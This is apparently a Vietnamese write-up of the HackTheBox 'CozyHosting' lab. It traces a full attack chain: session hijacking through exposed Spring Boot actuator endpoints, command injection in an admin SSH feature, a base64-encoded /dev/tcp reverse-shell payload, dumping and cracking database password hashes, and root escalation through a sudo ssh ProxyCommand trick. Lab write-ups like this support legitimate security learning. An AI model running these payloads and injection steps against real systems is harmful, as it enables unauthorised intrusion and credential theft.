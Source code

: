 ## CozyHosting

- Port Scanning: ``nmap -sV -sC -A -T4 -p- 10.10.11.230``
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: firewall
Running: Fortinet embedded
OS CPE: cpe:/h:fortinet:fortigate_100d
OS details: Fortinet FortiGate 100D firewall
Network Distance: 11 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Nhận thấy scan được 2 cổng dịch vụ trong đó thấy cổng 80 đang chạy http đang mở.
- Trỏ IP về hostname `cozyhosting.htb` theo mô tả của trang. Truy cập địa chỉ ở cổng 80.
- Thử scan vuln web với acunetix -> không phát hiện ra gì
- Scan dir với dirsearch: ``dirsearch -u cozyhosting.htb``

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/1df4019d-6bcc-4ebe-bda2-ec60c4eab5f3)

- Nhận thấy có một vài endpoint `/actuator` khả nghi.
- Sau một hồi research thì được biết actuator là một endpoint (điểm kết nối) được Spring Boot sử dụng để quản lý và giám sát ứng dụng.
- Đặc biệt ở endpoint `sessions` khi truy cập có một sessions có thể là session của user `kanderson`. (CVE-2023-20866 Spring Boot log lại session ID)

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/83b6e1e6-9741-4887-ad5f-cb46dbc0431e)

- Thay giá trị JSESSIONID cookie của kanderson ở trang login thì có được quyền admin của kanderson.

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/7cc4f313-ad5f-4dd6-9cb1-d29dd9410811)

- Ở trang admin có một chức năng cho phép execute ssh với các tham số hostname và username được truyền vào để thực thi câu lệnh dạng ``ssh username@hostname``
- Có thể họ dùng cách nối chuỗi nên ta có thể command injection
- Nhận thấy có thể rce bằng cách này:

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/eeec5e70-0244-42d7-b234-42c70bff0ab4)

- Để dễ dàng ta sẽ tạo một rev shell ``nc -lvnp 9001`` để mở port listen rồi chạy payload ``sh -i >& /dev/tcp/10.10.11.230/9001 0>&1`` tuy nhiên do có một vài ký tự đặc biệt nên khi gửi thông qua HTTP request sẽ không được url enocde
- Tạo mã base64

```
┌──(root㉿kali)-[/home/kali]
└─# echo 'sh -i >& /dev/tcp/10.10.11.230/9001 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMjMwLzkwMDEgMD4mMQo=
```

- Payload sẽ decode rồi thực thi payload

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/b25b5bfe-ccf1-4690-bccf-1b7987a76cb5)

- Lấy được shell thành công

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/134d4fee-dcd0-4390-804c-7a8e8bb14657)

- Ở đây nhận thấy có một file jar nhưng ta không thể đọc nó nên tôi sẽ tạo một http server bằng python để tải file này về để đọc.

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/ed144c61-3ee6-4455-bd89-411d48a1a237)

- Sau khi giải nén file jar ra thì ta sẽ tìm file cấu hình có chứa thông tin đăng nhập, db, host,... của postgresql ->  `application.propertise` 

 ![image](https://github.com/capy3ra/HackTheBox/assets/80744099/c77728ff-508c-4648-813f-08137051645c)

- Đăng nhập vào postgres

```
$ psql -U postgres -W -h localhost -d cozyhosting 
Password: Vg&nvzAQ7XxR

SELECT table_name 
FROM information_schema.tables
WHERE table_schema = 'public';
 table_name 
------------
 users
 hosts
(2 rows)

select * from users
;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
- Truy xuất được danh sách user cùng với đó là mật khẩu đã được hash của admin.

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/82833578-c3e4-4f40-87bf-e85a4d09b21e)

- Bruteforce được mật khẩu là `manchesterunited`.

- Đoán được user admin rất có thể của user josh trong file `/etc/passwd`

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/dcb2120c-6e22-4b0b-8864-3296491f40ee)

- Lấy được user flag.
- Leo quyền:
- Sử dụng `sudo -l` để hiển thị thông tin về các lệnh mà người dùng có thể thực hiện với quyền sudo.

```
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

- Tra trên [GTFO](https://gtfobins.github.io/gtfobins/ssh/) chạy ``sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`` nhận được quyền root

![image](https://github.com/capy3ra/HackTheBox/assets/80744099/89960b05-7b17-44e5-b59e-cd5a33c171fc)
